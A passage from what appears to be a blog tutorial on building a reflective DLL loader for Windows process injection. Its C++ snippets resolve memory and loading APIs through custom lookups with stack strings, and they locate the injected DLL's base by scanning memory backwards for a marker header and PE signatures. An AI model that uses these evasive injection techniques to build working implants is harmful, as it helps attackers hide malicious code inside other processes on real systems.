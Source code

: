 Cool, by this point we should have capabilities to handle: 

- Win32 APIs
- Stack variables
- Custom implementation of other library functions (please refer to the full code for this)

That’s pretty much it when it comes to implement our reflective code. 

(*From now on the code we will be dealing with is placed inside the “ReflectiveFunction”)*. 

First we gather the pointer to the functions we will need: 

```cpp
//all the variables passed to GPAR or GMHR are stack string declared as char[] as showed
if ((VA = (fnVirtualAlloc)GPAR(GMHR(kernel32), virtualAlloc)) == NULL)
        return FALSE;
if ((LLA = (fnLoadLibraryA)GPAR(GMHR(kernel32), loadLibraryA)) == NULL)
        return FALSE;
if ((VP = (fnVirtualProtect)GPAR(GMHR(kernel32), virtualProtect)) == NULL)
        return FALSE;
if ((RAFT = (fnRtlAddFunctionTable)GPAR(GMHR(kernel32), rtladdFunctionTable)) == NULL)
        return FALSE;
if ((FIC = (fnNtFlushInstructionCache)GPAR(GMHR(ntdll), ntFlushInstructionCache)) == NULL)
        return FALSE;
```

Now, in order to load itself in memory, the DLL has to look for its own first bytes (because as the good Loader that we are, we need to read the headers), and in order to do so, it will walk backwards from its position till some conditions are met. The condition to meet here is to look for a match with **NT and DOS signature bytes (sequence of bytes contained in the PE headers which categorize the PE)**, which might work but also generate false positives. My solution for this blog post and most likely future code is to **write an header before the DLL into the memory allocated in the remote process (*kinda* like egghunter if you familiar with the concept)**. So matching the header before actually matching the NT and DOS signature. The ReflectiveFunction will look backwards for the header bytes, and only when those are matched then it will try to match NT and DOS signature. 

```cpp
while (TRUE)
    {
        pDllHeader = (PDLL_HEADER)dllBaseAddress;   
        //remember windows little-endian 
        if (pDllHeader->header == 0x44434241) {
            //header matched, we check if next bytes are DOS signature
            pImgDosHdr = (PIMAGE_DOS_HEADER)(dllBaseAddress + (5*sizeof(CHAR)));
            if (pImgDosHdr->e_magic == IMAGE_DOS_SIGNATURE)
            {                
              //DOS matched, we check if next bytes are NT signature
               pImgNtHdrs = (PIMAGE_NT_HEADERS)(dllBaseAddress + pImgDosHdr->e_lfanew + (5 * sizeof(CHAR)));
               if (pImgNtHdrs->Signature == IMAGE_NT_SIGNATURE) {
                    break;
                }
            }
        }
        //walking backwards removing one bytes at time from the
        //reflective function address
        dllBaseAddress--;
    }
    if (!dllBaseAddress)
        return FALSE;
    //fixing the baseAddress including the 5 bytes of header
    //so that it points to the beginning of the RAW DLL
    dllBaseAddress = dllBaseAddress + (5 * sizeof(CHAR));
```
